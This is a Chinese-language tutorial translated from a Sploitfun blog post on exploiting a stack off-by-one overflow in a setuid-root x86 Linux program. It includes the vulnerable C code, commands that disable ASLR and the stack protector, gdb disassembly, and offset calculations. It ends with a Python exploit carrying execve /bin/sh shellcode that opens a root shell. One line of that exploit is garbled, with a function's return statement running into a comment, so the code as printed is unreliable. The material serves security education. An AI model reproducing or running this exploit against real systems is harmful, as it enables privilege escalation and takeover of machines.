

CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-栈内Off-by-one漏洞利用](http://www.csyssec.org/20161231/stackoffbyone/)》与作者信息：CSysSec出品  

VM Setup: Ubuntu 12.04 (x86)  

## 0X01 什么是off-by-one漏洞？

将源缓冲区复制到目标缓冲区时，以下情况可能导致Off-By-One漏洞：  
  
源字符串长度等于目标缓冲区长度  
当源字符串长度等于目标缓冲区长度时，单个NULL字节就会被复制到目标缓冲区上方。这种情况下，由于目标缓冲区存储在栈内，因此，仅凭单个NULL字节就能把栈内调用者EBP的最低有效位(LSB)覆盖掉。  

依照惯例，未免定义过于枯燥，下面我们就来看一则Off-By-One漏洞代码。  

漏洞代码：

``` c
//vuln.c
#include <stdio.h>
#include <string.h>
void foo(char* arg);
void bar(char* arg);
void foo(char* arg) {
 bar(arg); /* [1] */
}
void bar(char* arg) {
 char buf[256];
 strcpy(buf, arg); /* [2] */
}
int main(int argc, char *argv[]) {
 if(strlen(argv[1])>256) { /* [3] */
  printf("Attempted Buffer Overflow\n");
  fflush(stdout);
  return -1;
 }
 foo(argv[1]); /* [4] */
 return 0;
}
```
编译命令：

``` bash
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
上述漏洞代码的第[2]行就是Off-By-One溢出问题可能出现的地方。由于目标缓冲区长度为256，因此256字节的源字符串就可能导致任意代码执行。  

注：本系列所有文章中第[N]行代码指的的代码中显示`/*[N]*/`的位置。  

## 0X02 如何实现任意代码执行

任意代码执行是通过“EBP 覆盖（EBP overwrite）”方法实现的。如果调用者的EBP位于目标缓冲区上方，那么执行strcpy后，调用者的EBP的LSB很可能已然被单个NULL字节覆盖了。为了进一步了解off-by-one，我们来反汇编一则漏洞代码并且画出它的堆栈布局吧。  

反汇编：  
```
 (gdb) disassemble main
Dump of assembler code for function main:
 //Function Prologue
 0x08048497 <+0>: push %ebp                    //backup caller's ebp
 0x08048498 <+1>: mov %esp,%ebp                //set callee's (main) ebp to esp
 0x0804849a <+3>: push %edi                    //backup EDI
 0x0804849b <+4>: sub $0x8,%esp                //create stack space
 0x0804849e <+7>: mov 0xc(%ebp),%eax           //eax = argv
 0x080484a1 <+10>: add $0x4,%eax               //eax = &argv[1]
 0x080484a4 <+13>: mov (%eax),%eax             //eax = argv[1]
 0x080484a6 <+15>: movl $0xffffffff,-0x8(%ebp) //String Length Calculation -- Begins here
 0x080484ad <+22>: mov %eax,%edx
 0x080484af <+24>: mov $0x0,%eax
 0x080484b4 <+29>: mov -0x8(%ebp),%ecx
 0x080484b7 <+32>: mov %edx,%edi
 0x080484b9 <+34>: repnz scas %es:(%edi),%al
 0x080484bb <+36>: mov %ecx,%eax
 0x080484bd <+38>: not %eax
 0x080484bf <+40>: sub $0x1,%eax               //String Length Calculation -- Ends here
 0x080484c2 <+43>: cmp $0x100,%eax             //eax = strlen(argv[1]). if eax > 256
 0x080484c7 <+48>: jbe 0x80484e9 <main+82>     //Jmp if NOT greater
 0x080484c9 <+50>: movl $0x80485e0,(%esp)      //If greater print error string,flush and return.
 0x080484d0 <+57>: call 0x8048380 <puts@plt>   
 0x080484d5 <+62>: mov 0x804a020,%eax          
 0x080484da <+67>: mov %eax,(%esp)             
 0x080484dd <+70>: call 0x8048360 <fflush@plt>
 0x080484e2 <+75>: mov $0x1,%eax              
 0x080484e7 <+80>: jmp 0x80484fe <main+103>
 0x080484e9 <+82>: mov 0xc(%ebp),%eax          //argv[1] <= 256, eax = argv
 0x080484ec <+85>: add $0x4,%eax               //eax = &argv[1]
 0x080484ef <+88>: mov (%eax),%eax             //eax = argv[1]
 0x080484f1 <+90>: mov %eax,(%esp)             //foo arg
 0x080484f4 <+93>: call 0x8048464              //call foo
 0x080484f9 <+98>: mov $0x0,%eax               //return value
 //Function Epilogue
 0x080484fe <+103>: add $0x8,%esp              //unwind stack space
 0x08048501 <+106>: pop %edi                   //restore EDI
 0x08048502 <+107>: pop %ebp                   //restore EBP
 0x08048503 <+108>: ret                        //return
End of assembler dump.
(gdb) disassemble foo
Dump of assembler code for function foo:
 //Function prologue
 0x08048464 <+0>: push %ebp                    //backup caller's (main) ebp
 0x08048465 <+1>: mov %esp,%ebp                //set callee's (foo) ebp to esp
 0x08048467 <+3>: sub $0x4,%esp                //create stack space
 0x0804846a <+6>: mov 0x8(%ebp),%eax           //foo arg
 0x0804846d <+9>: mov %eax,(%esp)              //bar arg = foo arg
 0x08048470 <+12>: call 0x8048477              //call bar
 //Function Epilogue 
 0x08048475 <+17>: leave                       //unwind stack space + restore ebp
 0x08048476 <+18>: ret                         //return
End of assembler dump.
(gdb) disassemble bar
Dump of assembler code for function bar:
 //Function Prologue
 0x08048477 <+0>: push %ebp                    //backup caller's (foo) ebp
 0x08048478 <+1>: mov %esp,%ebp                //set callee's (bar) ebp to esp
 0x0804847a <+3>: sub $0x108,%esp              //create stack space
 0x08048480 <+9>: mov 0x8(%ebp),%eax           //bar arg
 0x08048483 <+12>: mov %eax,0x4(%esp)          //strcpy arg2
 0x08048487 <+16>: lea -0x100(%ebp),%eax       //buf
 0x0804848d <+22>: mov %eax,(%esp)             //strcpy arg1
 0x08048490 <+25>: call 0x8048370 <strcpy@plt> //call strcpy
 //Function Epilogue
 0x08048495 <+30>: leave                       //unwind stack space + restore ebp
 0x08048496 <+31>: ret                         //return
End of assembler dump.
(gdb)
```
堆栈布局：  
  


前面讲到，用户输入了256字节大小的数据，NULL字节就会覆盖foo的EBP的LSB。所以当存储于目标缓冲区‘buf’正上方的foo的EBP被单个NULL字节覆盖时，EBP就会由0xbffff2d8 变为0xbffff200。细看堆栈布局图，我们会发现栈地址0xbffff200就是目标缓冲区‘buf’的一部分，而既然用户输入值已经被复制进了这个目标缓冲区，那么攻击者就能得到这个栈地址(0xbffff200)的控制权，同时也得到了EIP的控制权，从而借此实现任意代码执行。我们来发送一串大小为256字节的“A”进行测试。    

测试第一步：EBP覆盖后出现返回地址覆盖是否有可能？    

``` 
(gdb) r `python -c 'print "A"*256'`
Starting program: /home/sploitfun/lsploits/new/obo/stack/vuln `python -c 'print "A"*256'`
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```
上述输出结果显示，EBP覆盖会让我们得到EIP的控制权。  

测试第二步：来自目标缓冲区的偏移量是什么？  

现在我们需要在目标缓冲区‘buf’的起始端中找到偏移量。我们还需设置好返回地址。切记，在off-by-one漏洞中，我们并不是要覆盖栈中的实际返回地址（在栈缓冲区溢出漏洞利用代码中我们才覆盖实际返回地址），而是把攻击者控制的目标缓冲区‘buf’内的一个4字节内存区域视作返回地址位置，对这块区域进行覆盖（在off-by-one溢出之后）。因此，我们需要(从‘buf’中)找到这个返回地址位置的偏移量——而这个偏移量也是目标缓冲区‘buf’本身的一部分。  
这段话有点绕，没关系，继续往下读就好。  
我们先试着从 text 段地址0x0804840开始尝试理解CPU的执行：  

0x08048490 - call strcpy – 执行这个指令会导致off-by-one溢出，因此（储存在栈地址0xbffff2cc中的）foo的EBP值将会由0xbffff2d8变为0xbffff200。  
0x08048495 - leave - leave指令释放了这个函数的栈空间并且恢复了EBP。  
```
leave: mov ebp, esp;        //unwind stack space by setting esp to ebp. 
       pop ebp;             //restore ebp
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff2cc
       pop ebp;             //ebp = 0xbffff200 (Overwritten EBP value is now stored in ebp register); esp = 0xbffff2d0
```

0x08048495 - ret - 返回到foo的指令0x08048475。
0x08048475 - leave - leave指令释放了这个函数的栈空间并且恢复了EBP。
```
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff200 (As part of unwinding esp is shifted down instead of up!!)
       pop ebp;             //ebp = 0x41414141; esp = 0xbffff204
```

0x08048476 - ret - 返回到储存在ESP (0xbffff204)中的指令中。此时ESP指向被攻击者控制的缓冲区，因此攻击者可以回到任何他想要实现任意代码执行的地方。

现在我们回到“在目标缓冲区‘buf’中寻找返回地址的偏移量”的最初测试上。如堆栈布局图所示，‘buf’位于0xbffff158，并且由紧随其后的CPU执行中可知，目标缓冲区‘buf’内的返回地址位置是0xbffff204。因此目标缓冲区‘buf’中返回地址的偏移量是0xbffff204 – 0xbffff158 = 0xac，因此用户输入“A”172 + “B”4 + “A”*80，用“BBBB”覆盖了EIP。  

``` python
$ cat exp_tst.py 
#exp_tst.py
#!/usr/bin/env python
import struct
from subprocess import call
buf = "A" * 172
buf += "B" * 4
buf += "A" * 80
print "Calling vulnerable program"
call(["./vuln", buf])
```

``` bash
$ python exp_tst.py 
Calling vulnerable program
$ sudo gdb -q vuln 
Reading symbols from /home/sploitfun/lsploits/new/obo/stack/vuln...(no debugging symbols found)...done.
(gdb) core-file core
[New LWP 4055]
warning: Can't read pathname for load map: Input/output error.
Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0 0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
上述输出结果显示，攻击者控制了返回地址。此时返回地址位于buf的偏移(0xac)处。有了上面这些信息，我们就可以写出能实现任意代码执行的漏洞利用程序了。  

漏洞利用代码：  


``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
#Spawn a shell. 
#execve(/bin/sh) Size- 28 bytes.
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90"
ret_addr = 0xbffff218
#endianess conversion
def conv(num):
 return struct.pack("<I",numturn Address + NOP's + Shellcode + Junk
buf = "A" * 172
buf += conv(ret_addr)
buf += "\x90" * 30
buf += scode
buf += "A" * 22
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上述漏洞利用程序将会获取root shell，如下所示：  
``` bash
$ python exp.py 
Calling vulnerable program
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
Off-by-one看上去是一个特别蠢的漏洞，而且程序开发者一个这么小的错误也能导致任意代码执行，这也太诡异了。那么，off-by-one漏洞是不是一定会导致任意代码执行呢？  

## 0X03 如果调用者的EBP不在目标缓冲区上方，该怎么办  

答案非常简单。如果那样的话，我们不能用“EBP覆盖”方法来利用这个漏洞了呗！（不过呢，毕竟这个漏洞在代码中是确实存在的，所以肯定有其他的漏洞利用方法啦。😛）  

## 0X04 什么情况下调用者的EBP不在目标缓冲区上方

情况1： 一些其他的本地变量出现在目标缓冲区上方  

``` c
...
void bar(char* arg) {
 int x = 10; /* [1] */
 char buf[256]; /* [2] */ 
 strcpy(buf, arg); /* [3] */ 
}
...
```
因此在这种情况下，夹在缓冲区‘buf’末端和EBP之间的会是一个本地变量，这就不允许我们去覆盖EBP的LSB了。  

情况2: 对齐空间——gcc对齐栈空间边界默认为16字节。即在创建栈空间之前，ESP的最后四个字节就被‘and’指令清零了。具体参见下方函数反汇编代码。  
```
Dump of assembler code for function main:
 0x08048497 <+0>: push %ebp
 0x08048498 <+1>: mov %esp,%ebp
 0x0804849a <+3>: push %edi
 0x0804849b <+4>: and $0xfffffff0,%esp               //Stack space aligned to 16 byte boundary
 0x0804849e <+7>: sub $0x20,%esp                     //create stack space
...
```
因此，在这种情况下，夹在缓冲区‘buf’末端和EBP之间的会是一个（最大为12字节的）对齐空间，这就不允许我们去覆盖EBP的LSB了。  

由于这个原因，我们在编译漏洞利用代码(vuln.c)时添加了gcc参数“-mpreferred-stack-boundary=2”。  

求助：如果在创建栈内容之前ESP边界已经对齐为16字节的话该怎么办？这种情况下，即使程序以gcc默认的16字节栈边界编译，按理来说“EBP覆盖”法也是可以用的。但是我一直都写不出有效代码。在我所有的试运行程序中，创建栈空间之前，ESP边界都没有对齐16字节。但是不管我多么小心地创建栈内容，gcc总是给本地变量添加额外空间，这样ESP边界就不能对齐16字节。如果任何人有有效代码或者知道为什么ESP总是无法对齐，麻烦告诉我！拜托了！  

## 参考文章 

http://seclists.org/bugtraq/1998/Oct/109